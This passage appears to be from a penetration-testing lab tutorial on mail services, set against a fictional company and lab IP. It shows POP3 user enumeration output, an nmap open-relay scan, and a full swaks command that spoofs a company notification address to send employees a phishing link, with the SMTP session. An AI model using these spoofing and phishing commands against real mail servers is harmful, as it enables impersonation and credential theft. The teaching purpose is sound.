 ```shell-session
USER julio

-ERR


USER john

+OK
```
#### Open Relay
From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.
```shell-session
# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
```shell-session
# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```
